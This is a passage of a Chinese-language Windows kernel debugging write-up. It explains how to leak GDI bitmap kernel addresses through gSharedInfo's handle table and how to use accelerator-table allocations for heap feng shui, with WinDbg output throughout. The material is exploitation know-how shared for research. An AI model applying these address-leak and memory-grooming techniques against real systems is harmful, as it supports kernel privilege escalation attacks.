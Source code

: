 可以看到，在通过GdiSharedHandleTable获得的Bitmap的内核地址是一个为开辟的内核空间和真正的Bitmap内核地址有所区别。这时候，gSharedInfo出现了，这个gSharedInfo是一个非常经典的结构，在很多kernel exploitation都出现过，它其中包含着内核结构，我们可以通过它获得内核表，然后通过计算偏移得到内核对象地址。

解决这种问题的方法就是用AcceleratorTable加速键表，我之前的内核漏洞调试笔记之二调试的CVE-2015-2546就是用的加速键表，制造一个稳定的内存空洞，连续申请释放内存，直到两次申请释放的AccleratorTable的内核句柄相同，则再申请相同大小的bitmap，这样就能获得GDI对象了，再通过这个对象的phead就是pkernelAddress。

[![](./img/85579/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01bb24e81c8797dccd.png)

如何获得呢？在这个handleentry里有一个aheList，其中包含了一个phead对象，它就是指向pkerneladdress的。来看一下gSharedInfo的地址，这里我也不知道为什么，感觉可能是Win10很多win32k的结构体不透明化了，看不到tagSharedInfo的结构体，感觉像被隐藏了。

```
kd&gt; ?user32!gsharedinfo  //获得gsharedinfo的地址值
Evaluate expression: 140725741012608 = 00007ffd`43cdc680
```

 获得了gSharedInfo的地址之后，我们可以通过Accelerator Table的handle，获取到gSharedInfo结构中的aheList对应的内核句柄值。 

```
kd&gt; dd 7ffd43cdc680  //查看地址值的内容
00007ffd`43cdc680  01360700 00000000 011e0000 00000000
kd&gt; dt win32k!tagSHAREDINFO  //由于调试时tagSHAREDINFO不透明，这里只能                                  
//从网上拷贝一个方便说明
     +0x000 psi                    :  tagSERVERINFO
+0x008 aheList                :  _HANDLEENTRY
kd&gt; dq 7ffd43cdc680+0x8 L1 //+0x8位置的HANDLEENTRY就是我们要的表
00007ffd`43cdc688  00000000`011e0000
```

这样就能得到句柄实际内核地址的表了，也就是指向GDI对象的表，这里就要计算对应的偏移了，计算方法其实和之前GdiSharedHandleTable很像，那个算对应GDICELL64地址的计算方法是：

GdiSharedHandleTable+(handle &amp; 0xffff)*sizeof(GDICELL64)

这里就用_HANDLETABLE_ENTRY + (Accel &amp; 0xffff)*sizeof（Accel）算出地址，这里Accel的值是：

```
kd&gt; r eax
eax=1700b9
kd&gt; p
0033:00007ff6`956112d1 488d1449   lea     rdx,[rcx+rcx*2]//计算handle的值
kd&gt; p
0033:00007ff6`956112d5 488bc8          mov     rcx,rax
kd&gt; r rdx
rdx=000000000000022b// handle的值为22b
kd&gt; dd 11e0000+22b*8 L1 // 11e0000是刚才获得的HANDLENTRY，计算出偏移
 // 指向的就是GDI对象
00000000`011e1158  81be7000 ffffbad3
```

 紧接着调用DestroyAcceleratorTable释放这个加速键表，可以看到对应句柄内核指针的值也被释放了。注意这里申请的Accelerator Table的大小是700，同样如果制造出一个稳定的hole之后，申请bitmap的大小也是700。

```
kd&gt; p
0033:00007ff6`956112d8 488b5cd500      mov     rbx,qword ptr [rbp+rdx*8]
kd&gt; p
0033:00007ff6`956112dd ff15451f0000    call    qword ptr [00007ff6`95613228]
kd&gt; p
0033:00007ff6`956112e3 babc020000      mov     edx,2BCh
kd&gt; dd 11e0000+22b*8// 对应索引的位置GDI对象被释放
00000000`011e1158  0000042f 00000000
```
